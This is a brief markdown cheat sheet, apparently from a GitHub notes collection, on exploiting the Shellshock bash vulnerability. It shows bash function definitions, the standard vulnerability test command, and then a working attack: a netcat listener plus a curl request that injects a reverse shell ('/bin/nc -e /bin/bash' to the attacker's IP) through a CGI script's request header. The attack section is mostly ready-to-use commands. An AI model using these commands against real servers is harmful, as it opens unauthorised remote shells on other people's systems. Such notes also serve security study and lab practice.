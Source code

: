 # Shellshock

## Bash functions

* Can be defined in "one liners"

```text
$ welcome() {echo "Hi $USER"; }
```

Type welcome:

```text
$ welcome
```

Output:

> Hi user

* Can be defined in environment variables

```text
$export hellofunc="() {echo "Hi $USER"}"
```

```text
$bash -c 'hellofunc'
```

## Shellshock

```text
> env val='() { : ;}; echo vulnerable' bash -c "echo test"
```

## Exploit Shellshock to gain a Shell

### Turn on a netcat listener on attacker machine

```text
> netcat -nlvp 443
```

### Use curl send a request

```text
> curl -H "user agent: () { : ;};echo;/bin/nc -e /bin/bash [yourIPaddress] 443" [targetIPaddress]/cgi-bin/vulnerable.cgi
```

